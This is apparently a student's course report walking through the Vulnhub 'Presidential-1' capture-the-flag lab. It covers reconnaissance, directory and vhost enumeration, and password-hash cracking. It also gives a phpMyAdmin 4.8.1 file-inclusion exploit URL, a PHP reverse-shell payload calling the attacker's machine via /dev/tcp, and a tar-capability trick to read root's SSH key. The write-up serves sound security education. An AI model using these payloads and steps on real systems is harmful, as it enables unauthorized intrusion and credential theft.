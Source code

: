 # Report Presidential Hacking
Cybersecurity Course - University of Trieste - Academic year 2023/2024

Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. This phase involves using various techniques to actively or passively gather information that supports targeting. The information collected can include details about the victim's organization, infrastructure, and personnel. In this case, the objective is to identify the IP address of the target machine and the services running on it.

The shell command `netdiscover` automates the process of discovering live hosts on a network. It generates ARP requests for each IP address within a specified range. These requests are broadcasted to all devices on the local network, prompting devices with the corresponding IP addresses to respond with their MAC addresses. `netdiscover` collects these responses and records the IP and MAC address pairs, and it can also identify the device vendor. As a result, the output of `netdiscover` is a list of active hosts on the network.

From the vendor column in the obtained list, it is suggested that the potential target IP addresses could be 10.0.2.3 and 10.0.2.8. To determine which is the correct address, it is necessary to identify the active services on these addresses.
The `nmap` command is used to identify the services, open ports, and software versions on the machine at the indicated address. 

![Steps of recognition](images/recognition.png)  

The scan reveals that the machine with the IP address 10.0.2.8 is running a web service on port 80 using the HTTP protocol and a remote shell on port 2082 using the SSH protocol. This machine is the presidential VM.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the '/etc/hosts' file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

Four accessible files were detected during the enumeration phase:

1. **`/index.html`**: This is the main page of the web server, which has already been visited.
2. **`/about.html`**: This page contains placeholder text ("lorem ipsum") and does not provide any useful information.
3. **`config.php.bak`**: This file appears to be a backup of the `config.php` file and likely contains important configuration information. As seen from the response to the `curl` command, it contains user credentials, which could be useful later.
4. **`config.php`**: This file is an empty PHP file, offering no additional information.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt), a single subdomain was found: datasafe.votenow.local.

The subdomain's web page features an access panel to "phpMyAdmin." By entering the previously obtained credentials, it is possible to log in and access a SQL database containing the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella".

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows command execution. 

![Searchsploit response](images/searchsploit.png)

Searchsploit provides detailed information about this vulnerability and how it can be exploited.

To exploit this vulnerability it is necessary to:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query on the web page
4) accurately edit the URL.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

After authentication it is possible to execute sql queries on the databases present.

Under normal circumstances, the web application does not interpret or execute code placed within backticks. However, by meticulously crafting the URL and embedding a PHP script within backticks in a SQL query, it becomes possible to execute the script.

The URL must have the following format:

'http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieValue}'

where {cookieValue} is the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, a reverse shell is obtained on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln.png)

Once the reverse shell is obtained, authentication on it can be done using the previously extracted admin user credentials.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is listing the capabilities associated with available executable files using the `getcap` command.  It is noted that the tarS binary has '+EP'. This binary allows the compression of any file on the system without being root. Once compressed, it's possible to read the contents of the file by performing only the decompression.

The '/root/.ssh/' directory contains an 'id_rsa' file, which typically holds an RSA private key for SSH authentication.
By having '+ep', compressing and decompressing the 'id_rsa' file, visibility to its contents is gained.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called 'id_rsa.tar' containing the 'id_rsa' file present in the '/root/.ssh/' directory.

* `tar -xvf id_rsa.tar` : extracts the file from the 'id_rsa.tar' archive.

After the execution of these two commands, the 'id_rsa' file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, obtaining the final-flag can be done and it marks the end of the challenge.

![Root access](images/ssh_&_final_flag.png)
